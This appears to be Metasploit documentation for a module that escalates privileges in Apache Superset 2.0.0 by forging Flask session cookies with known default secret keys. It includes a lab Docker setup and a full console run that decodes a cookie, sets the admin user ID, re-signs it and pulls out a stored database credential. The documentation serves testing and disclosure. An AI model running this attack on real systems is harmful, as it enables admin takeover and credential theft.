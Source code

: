 
## Vulnerable Application

Apache Superset versions <= 2.0.0 utilize Flask with a known default secret key which is used to sign HTTP cookies.
These cookies can therefore be forged. If a user is able to login to the site, they can decode the cookie, set their user_id to that
of an administrator, and re-sign the cookie. This valid cookie can then be used to login as the targeted user and retrieve database
credentials saved in Apache Superset.

## App Install

```
sudo docker run -p 8088:8088 --name superset apache/superset:2.0.0
sudo docker exec -it superset superset fab create-admin \
              --username admin \
              --firstname Superset \
              --lastname Admin \
              --email admin@superset.com \
              --password admin

sudo docker exec -it superset superset db upgrade
sudo docker exec -it superset superset init
```

Login to the app, click 'list users' under 'Settings', then click '+'.  make a new user with 'public' as the permission level.

If you want any database credentials to be pulled, you'll need to configure a database as well.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/apache_superset_priv_esc`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get an admin cookie and the database credentials

## Options

### USERNAME

The username to authenticate as. Required with no default.

### PASSWORD

The password for the specified username. Required with no default.


### ADMIN_ID

The ID of an admin account. Defaults to `1`

## Scenarios

### Superset 2.0.0 Docker image

```
msf6 > use auxiliary/gather/apache_superset_priv_esc 
msf6 auxiliary(gather/apache_superset_priv_esc) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/apache_superset_priv_esc) > set username user
username => user
msf6 auxiliary(gather/apache_superset_priv_esc) > set password user
password => user
msf6 auxiliary(gather/apache_superset_priv_esc) > set verbose true
verbose => true
msf6 auxiliary(gather/apache_superset_priv_esc) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Apache Supset 2.0.0 is vulnerable
[*] 127.0.0.1:8088 - CSRF Token: ImQ2NDBmM2RlZTcyYjA5MzFiMDE4MjMwYWI4N2QxNzY1NGY0ZTBmZWYi.ZK2qOQ.c-LssFFTxWJKoQZ7v1Sex8q-xy0
[*] 127.0.0.1:8088 - Initial Cookie: session=eyJjc3JmX3Rva2VuIjoiZDY0MGYzZGVlNzJiMDkzMWIwMTgyMzBhYjg3ZDE3NjU0ZjRlMGZlZiIsImxvY2FsZSI6ImVuIn0.ZK2qOQ.oXIWtpT7OItq7Vmr-00Prtl4Pmg;
[*] 127.0.0.1:8088 - Decoded Cookie: {"csrf_token"=>"d640f3dee72b0931b018230ab87d17654f4e0fef", "locale"=>"en"}
[*] 127.0.0.1:8088 - Attempting login
[+] 127.0.0.1:8088 - Logged in Cookie: session=.eJwlj0tqAzEQRO-itRf9G7XalxkkdTc2MTbM2KuQu0chy6Io6r3vsucR561c38cnLmW_e7mWMKE-qmR3UcdB0LB2EczOSC6VeCNBowruSYxjNdswtOnNY3BuuuG0VodSotpMVuzk6AlCDUcqayoYpIu3ZgLAjad1q4xRLmWeR-7v11c8F49XgWSPUBpg6w6wEUMfbdFp3SQlICPX7vGa_RF_Ds-VPmcc_0pUfn4BrnVCHw.ZK2qOQ.SCiqOSW_PTP9VPz2CfG_2IZmHyI;
[*] 127.0.0.1:8088 - Modified cookie: {"_fresh"=>true, "_id"=>"e942ab64fad47d1b20816a441fa312d462352419260ddf231b1fa5b919cd8deb3f5751c986b72f179cf371a2d1df04281bf737f7090fd4d889400383c9a9631e", "csrf_token"=>"d640f3dee72b0931b018230ab87d17654f4e0fef", "locale"=>"en", "user_id"=>1}
[*] Attempting to resign with key: thisismyscretkey\e\y\y\h
[*] 127.0.0.1:8088 - New signed cookie: eyJfZnJlc2giOnRydWUsIl9pZCI6ImU5NDJhYjY0ZmFkNDdkMWIyMDgxNmE0NDFmYTMxMmQ0NjIzNTI0MTkyNjBkZGYyMzFiMWZhNWI5MTljZDhkZWIzZjU3NTFjOTg2YjcyZjE3OWNmMzcxYTJkMWRmMDQyODFiZjczN2Y3MDkwZmQ0ZDg4OTQwMDM4M2M5YTk2MzFlIiwiY3NyZl90b2tlbiI6ImQ2NDBmM2RlZTcyYjA5MzFiMDE4MjMwYWI4N2QxNzY1NGY0ZTBmZWYiLCJsb2NhbGUiOiJlbiIsInVzZXJfaWQiOjF9.ZK2qOQ.fv4N_O6m35thR0PFpOdy7E8MA_Y
[-] 127.0.0.1:8088 - Cookie not accepted
[*] Attempting to resign with key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] 127.0.0.1:8088 - New signed cookie: eyJfZnJlc2giOnRydWUsIl9pZCI6ImU5NDJhYjY0ZmFkNDdkMWIyMDgxNmE0NDFmYTMxMmQ0NjIzNTI0MTkyNjBkZGYyMzFiMWZhNWI5MTljZDhkZWIzZjU3NTFjOTg2YjcyZjE3OWNmMzcxYTJkMWRmMDQyODFiZjczN2Y3MDkwZmQ0ZDg4OTQwMDM4M2M5YTk2MzFlIiwiY3NyZl90b2tlbiI6ImQ2NDBmM2RlZTcyYjA5MzFiMDE4MjMwYWI4N2QxNzY1NGY0ZTBmZWYiLCJsb2NhbGUiOiJlbiIsInVzZXJfaWQiOjF9.ZK2qOQ.XIvqgEv_nviSivPJjE73KOWKMEI
[+] 127.0.0.1:8088 - Cookie validated to user: admin
[+] Found mysql database exampledb: root:my-secret-pw@111.222.3.444:3306
[*] Done enumerating databases
[*] Auxiliary module execution completed
msf6 auxiliary(gather/apache_superset_priv_esc) > creds
Credentials
===========

host           origin         service           public  private       realm  private_type  JtR Format
----           ------         -------           ------  -------       -----  ------------  ----------
111.222.3.444  111.222.3.444  3306/tcp (mysql)  root    my-secret-pw         Password      
```
